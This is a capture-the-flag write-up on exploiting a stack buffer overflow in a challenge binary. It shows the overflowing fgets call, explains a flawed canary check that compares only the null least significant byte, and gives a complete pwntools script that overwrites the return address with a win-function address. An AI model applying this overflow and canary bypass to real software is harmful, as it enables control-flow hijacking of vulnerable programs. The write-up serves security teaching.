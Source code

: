 The second option simply exits the program whereas inputting '1' for the first option presents us with the option to "submit code for review". Let's take a look at how that is handled.
```c
void submit_code() {
    char temp_code[512];

    printf("Please enter your code. Elon will review it for length.\n");
    fgets(temp_code, 552, stdin);
}
```

Here the vulnerability is immediately obvious. Despite using the safer `fgets()` call over the highly insecure `gets()`, this program allows us to write more data to memory than the buffer we write to is able to store. We do only have 40 bytes though so let's hope that doesn't pose a problem.

After trying many large inputs though we notice that unfortunately the binary does completely quit upon seeing a modified cookie. We'll have to find another way to bypass the canary check so let's try decompiling the binary with Ghidra.
![[ghidraduck.png]]

We first notice that there seems to be a special segment of code run if the variable DuckCounter is exactly 30 which we can get to by "entering our code" 29 times and reaching it on the 30th time. In this special segment there appears to be something odd about the canary check. During the check it's being cast to type char and so only the least significant byte is kept!

This means that in an 8 byte canary only the least significant byte is actually used in the comparison. Doesn't that still mean there is only a 1 in 256 chance of guessing that byte correctly since it changes everytime the program is run? Thankfully... no!

On Linux systems, stack canaries always end with `\00` or a nullbyte. This is so that mistakes in the use of `printf()` functions will still be null-terminated by the canary. In some implementations of stack canaries, the whole canary is always `0` as despite being highly guessable and easy to spot, is often hard for attackers to use in a buffer overflow attack. Due to stricter null-byte termination, the rest of their payload will be ignored and the return address meant to overwrite RIP/EIP will be ignored. As with everything though, those implementations still have vulnerabilities.

This also means I lied to you earlier and, in our case, there are only `7.2057594e+16` or 2^56 possible canary values since only 7 bytes are randomly chosen.

With our knowledge that only the least significant byte is checked and that it will always be a nullbyte, we can begin to craft our payload.
```python
from pwn import *

#r = remote('pwn.chall.pwnoh.io', 13386) #remote address
r = process('./chall') #testing on local

for i in range(0, 29):
    r.recvuntil(b"fired")
    r.sendline(b"1")
    r.recvuntil(b"length.")
    r.sendline(b'duckies!')

r.recvuntil(b"fired")
r.sendline(b"1")
r.recvuntil(b"length.")

BASE = b"A"*520
NULLBYTE = b"\x00"
REMAINING_CANARY = b"A"*7
PADDING = 1
WIN_FUNC = 0x401180

payload = BASE + NULLBYTE + REMAINING_CANARY + p64(PADDING) + p64(WIN_FUNC)

r.sendline(payload)
r.interactive()
```